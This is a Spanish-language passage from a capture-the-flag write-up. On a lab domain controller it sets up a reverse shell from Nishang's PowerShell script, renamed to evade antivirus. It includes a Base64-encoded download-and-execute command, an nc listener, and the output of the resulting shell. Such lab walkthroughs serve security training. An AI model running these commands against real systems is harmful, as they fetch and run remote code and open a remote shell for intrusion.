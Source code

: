 En esta máquina por x motivos no funciona correctamente WnRM, al menos en mi caso se quitaba la conexión cada x tiempo.

Por lo tanto, lo que hicimos fue utilizar la Reverse Shell del repositorio de `Nishang`. Renombramos el archivo `Invoke-PowerShellTcp.ps1` a `rev.ps1`. Deberemos modificar el archivo para que realice el `Invoke` de la Reverse Shell al final del script. En este caso, modificamos un poco el script para que el AV no lo detecte tan facilmente.

```bash
❯ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .

❯ mv Invoke-PowerShellTcp.ps1 rev.ps1

❯ nvim rev.ps1

❯ head -n 1 rev.ps1 && tail -n 1 rev.ps1
function Gzzcoo
Gzzcoo -Reverse -IPAddress 10.10.16.5 -Port 443
```

Nos ponemos en escucha por el puerto indicado en el script `rev.ps1`.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Codificamos en Base64 de Windows el comando que desde el equipo `DC01` ejecutaremos y levantaremos un servidor web con Python.

<pre class="language-bash"><code class="lang-bash">❯ echo 'IEX(New-Object Net.WebClient).downloadString("http://10.10.16.5/rev.ps1")' | iconv -t utf-16le | base64 -w 0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADUALwByAGUAdgAuAHAAcwAxACIAKQAKAA==
<strong>
</strong><strong>❯ python3 -m http.server 80
</strong>Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
</code></pre>

Desde la consola donde hemos iniciado sesión con `evil-winrm`, ejecutaremos el comando encodeado en Base64 para otorgarnos la Reverse Shell.

```bash
*Evil-WinRM* PS C:\> powershell -e <BASE64_CODE>
```

Verificamos que hemos logrado obtener el acceso correctamente al equipo, desde esta terminal no tendremos problemas de desconexión al equipo.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.31] 62397
Windows PowerShell running as user M.harris on DC01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\>whoami
infiltrator\m.harris
```
